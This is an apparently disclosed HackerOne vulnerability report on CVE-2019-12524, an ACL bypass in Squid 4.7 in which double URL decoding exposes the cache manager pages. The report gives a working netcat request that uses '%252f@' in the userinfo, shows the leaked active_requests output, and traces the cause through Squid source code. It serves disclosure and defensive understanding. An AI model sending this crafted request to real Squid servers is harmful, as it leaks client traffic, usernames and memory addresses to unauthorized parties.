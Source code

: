 # Cache Manager ACL Bypass

## Report Details
- **Report ID**: 824203
- **URL**: https://hackerone.com/reports/824203
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-03-18T23:53:54.106Z
- **Disclosed**: 2021-08-26T23:28:49.164Z

## Reporter
- **Username**: jeriko_one
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## Summary:
ACL Manager can be bypassed giving non authorized users to squid-internal-mgr.
Possible to bypass other url_regex, but only focused on manager. 

<= Squid-4.7 vulnerable
Silently Fixed in Squid-4.8 
Announce page was allocated, but never made http://www.squid-cache.org/Advisories/SQUID-2019_4.txt As another issue similar to this wasn't fixed 

Patch: http://www.squid-cache.org/Versions/v4/changesets/squid-4-e1e861eb9a04137fe81decd1c9370b13c6f18a18.patch

Assigned: CVE-2019-12524
## Steps To Reproduce:

1) Start squid-4.7
```
./sbin/squid
```

2) Issue the following request replacing <hostname> with the hostname of the server running squid
```
echo -e "GET https://jeriko.one%252f@<hostname>:3128/squid-internal-mgr/active_requests HTTP/1.1\r\n\r\n" |nc <hostname> 3128
```

```
HTTP/1.1 200 OK
Server: squid/4.7
Mime-Version: 1.0
Date: Wed, 18 Mar 2020 23:41:31 GMT
Content-Type: text/plain;charset=utf-8
Expires: Wed, 18 Mar 2020 23:41:31 GMT
Last-Modified: Wed, 18 Mar 2020 23:41:31 GMT
X-Cache: MISS from g64
Transfer-Encoding: chunked
Via: 1.1 g64 (squid/4.7)
Connection: keep-alive

1AF
Connection: 0x5594f78d95f8
	FD 10, read 85, wrote 0
	FD desc: Reading next request
	in: buf 0x5594f7d2e1a4, used 1, free 4011
	remote: 192.168.4.144:38376
	local: 192.168.4.144:3128
	nrequests: 1
uri https://jeriko.one%2f@g64:3128/squid-internal-mgr/active_requests
logType TCP_MISS
out.offset 0, out.size 0
req_sz 84
entry 0x5594f7d2b720/0300000000000000291F000001000000
start 1584574891.149644 (0.000000 seconds ago)
username -


0
```
You should have accessed the active_requests page in the squid-internal-mgr 

## Analysis

When Squid is checking ACLs and it wants to check if a URL is a cache manager
URL it checks the following rule

```
 default_line("acl manager url_regex -i ^cache_object:// +i ^https?://[^/]+/squid-internal-mgr/");
```
When checking if the URL matches the regex the function
ACLUrlStrategy::match will be called. This will get the effectiveRequestUri,
decode it and then try to match it against the regex

```
ACLUrlStrategy::match (ACLData<char const *> * &data, ACLFilledChecklist *checklist)
{
    char *esc_buf = SBufToCstring(checklist->request->effectiveRequestUri());
    rfc1738_unescape(esc_buf);
    int result = data->match(esc_buf);
    xfree(esc_buf);
    return result;
}
```
effectiveRequestUri() will return url.absolute() for methods that aren't
CONNECT and schemes that aren't PROTO_AUTHORITY_FORM

 Looking at Uri::absolute we see that the userInfo is included into the
 absolute uri representation if the protocol is HTTPS

```
             const bool omitUserInfo = getScheme() == AnyP::PROTO_HTTP ||
                                      getScheme() != AnyP::PROTO_HTTPS ||
                                      userInfo().isEmpty();
            if (!omitUserInfo) {
                absolute_.append(userInfo());
                absolute_.append("@", 1);
            }
```
userInfo is set in Uri::parse if the foundHost contains a @ that
the userinfo is extracted and then decoded.
```
        t = strrchr(foundHost, '@');
        if (t != NULL) {
            strncpy((char *) login, (char *) foundHost, sizeof(login)-1);
            login[sizeof(login)-1] = '\0';
            t = strrchr(login, '@');
            *t = 0;
            strncpy((char *) foundHost, t + 1, sizeof(foundHost)-1);
            foundHost[sizeof(foundHost)-1] = '\0';
            // Bug 4498: URL-unescape the login info after extraction
            rfc1738_unescape(login);
        }
```
This is eventually stored in userInfo when calling parseFinish
 parseFinish(protocol, proto, urlpath, foundHost, SBuf(login), foundPort);

This userInfo is the decoded version, therefore special tokens such as ? # /
are possible entries in the userInfo. 

We see now that the URL is decoded twice when checking RegexURL acls.

Let's consider the following example URL to show how we can access
CacheManager due to this double decode flaw.

g64 is the name of my Squid server

https://jeriko.one%252f@g64:3128/squid-internal-mgr/active_requests

First in clientProcessRequest my request will be marked as internal as the
path is /squid-internal-mgr/active_requests, and the url.host and url.port
match the Squid server hostname and port number
```
    if (internalCheck(request->url.path())) {
        if (internalHostnameIs(request->url.host()) && request->url.port() == getMyPort()) {
            debugs(33, 2, "internal URL found: " << request->url.getScheme() << "://" << request->url.authority(true));
            http->flags.internal = true;
```
As it makes it way through ACL checks it'll come against the Manager regex acl

After the call rfc1738_unescape is made my URL is now
"https://jeriko.one/@g64:3128/squid-internal-mgr/active_requests"

Which fails against the Manager regex check

As this decoding didn't change the original URL, when I reach internalStart my
path will match against mgrPfx, giving me access to the cache manager.

The Cache manager has a lot of useful information for anyone who is curious on
what type of traffic is going through a Squid server. It also provides useful
information for someone trying to gain remote code execution over the server
as the cmd active_requests holds a number of in use addresses

## Impact

Bypasses restrictions on squid-internal-mgr. This allows an attacker to gain information on Squid clients, request being made, usernames, peer servers, servers being reversed proxied,  in memory objects, addresses of objects which can be used to break ASLR. 

A list can be found in stat.cc where functions are registered to the Manager.

## Attachments
No attachments
